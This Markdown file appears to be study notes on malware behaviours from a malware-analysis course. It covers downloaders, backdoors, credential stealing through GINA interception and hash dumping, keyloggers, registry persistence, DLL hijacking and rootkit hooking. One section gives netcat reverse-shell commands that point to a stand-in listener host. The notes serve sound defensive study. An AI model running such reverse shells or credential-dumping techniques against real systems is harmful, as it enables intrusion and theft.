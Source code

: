 # 11 Malware Behaviours

## Downloaders and Launchers

### Downloaders
 - Get another piece of malware from the internet.
 - Execute on local system
 - Win32:
   - URLDownloadtoFileA

### Launchers
 - Malware designed to load (A.K.A. Loader)
 - Used for installing malware
 - Often has containing malware that is designed to load

## Backdoors
 - Provides remote access to victim’s machine
 - Communicates over internet
 - Functionalities:
   - Manipulate registry keys
   - enumerate display windows
   - Create/modify directories
   - Search files

### Reverse Shell
 - Provides attacker shell access
 - Ability to execute any commands, as if they were on the local system

### Netcat Reverse Shells
 - Use of nc command:
   - Attacker listen: nc -l -p 80
   - Victim execute: nc listener_ip 80 -e cmd.exe

### Windows Reverse Shells
 - Uses cmd.exe process: Basic and multithreaded
 - Win32:
   - CreateProcess
   - CreateThread
   - CreatePipe

### RATs
 - Remotes Administration Tool
![](../Images/Chapter-11-RAT.png)

### Botnets
 - Collection of compromised hosts (A.K.A. zombies)
 - Controlled by a bonnet controller
 - Comprise as many host as possible
 - Perform distributed denial-of-service (DDoS)

## Credential Stealers
 - Common methods:
   - Wait for user login
   - Keyloggers
   - Dump information stored locally

### GINA Interception
 - Graphical Identification and Authentication (GINA):
   - Customise window login process
   - Add support for 3rd party authentication methods
 - Man-In-The-Middle attack:
   - third-party DLLs loaded by Winlogon
   - Malicious DLL intercepts function calls and log data
   - HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL

### Hash Dumping
 - Grab hashes:
   - Attempt to crack them for credentials
   - Possible to directly use hash for authentication as well
 - pass-the-hash attack:
   - LM and NTLM hashes
   - Pwdump and the Pass-the-Hash (PSH) Toolkit
 - Pwdump:
   - Program that outputs the LM and NTLM password
   - Security Account Manager (SAM)
   - DLL injection inside the Local Security Authority Subsystem Service (LSASS) 
   - lsaext.dll: calls GetHash method
   - SAM functions (undocumented by microsoft):
     - SamIConnect - connect to saml
     - SamrQueryInformationUser - for each user on the system
     - SamIGetPrivateData - extract hash
     - SystemFunction025 - decryption
     - SystemFunction027 - decryption
 - PSH Toolkit:
   - whosthere-alt: dumps the SAM by injecting a DLL into lsass.exe
   - API functions:
     - LsaEnumerateLogonSessions:
       - Obtain list of locally unique identifiers (LUIDs)
       - Usernames and domains for each logon
     - NlpGetPrimaryCredential:
       - Non-exported function in the msv1_0.dll
       - Used to dump the NT and LM hashes

## Keystroke Logging
 - Observe typed data like usernames and passwords
 - Kernel-Based:
   - Part of a rootkit
   - Act as keyboard drivers
   - Bypass user-space programs and protection
 - User-Space:
   - Log keypress using Win32 API, uses hooking or polling
   - Hooking:
     - SetWindowsHookEx
   - Polling:
     - GetAsyncKeyState – determine if a key has been pressed
     - GetForegroundWindow – which app is used for keyboard entry
     - ![](../Images/Chapter-11-Keylogging.png)
 - Identify in Strings:
   - ![](../Images/Chapter-11-Keylogging-Strings.png)

## Persistence Mechanisms
 - Methods to allow malware to be active in a system for a long time

### Windows Registry
 - AppInit_DLLs:
   - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
   - Space-delimited string of DLLs
 - Winlogon Notify:
   - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\
   - Hook malware to a particular Winlogon event
 - SvcHost DLLs:
   - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
   - HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ServiceName
   - Installed as a Windows service

### Trojanized System Binaries
 - Malware patches bytes of a system binary
 - Force the system to execute the malware
 - Use MD5 hash to spot modification of system binary
 - ![](../Images/Chapter-11-Trojanized.png)  

### DLL Load-Order Hijacking
 - Typical Windows XP load order:
   - Application’s directory
   - Current directory
   - System directory (\Windows\System32\)
   - 16-bit system directory (\Windows\System\)
   - Windows directory (\Windows\)
   - Directories listed in PATH
 - KnownDLLs registry key:
   - List of specific DLL locations
   - These DLLs commonly used by applications
   - Malicious DLLs can’t be placed higher in load order
   - Not fully protected due to recursive imports
 - E.g. explorer.exe:
   - /Windows directory is checked before /System32
   - ntshrui.dll is placed in /Windows, it will be loaded in place of the legitimate DLL

## Privilege Escalation
 - Malware/attacker gaining administrator access to attack system-level processes

### SeDebugPrivilege
 - Set access token’s rights to enable SeDebugPrivilege (AdjustTokenPrivileges)

## User-Mode Rootkits
 - Tool to hide malicious activity
 - Make malware activities invisible to other programs

### IAT Hooking
 - Modifies import address table (IAT) or the export address table (EAT)
 - Maps the target function memory address to the malicious code
 - Old and easily detectable form of hooking

### Inline Hooking
 - Overwrites the API function code contained in the imported DLLs
 - Replace the start of the code with a jump
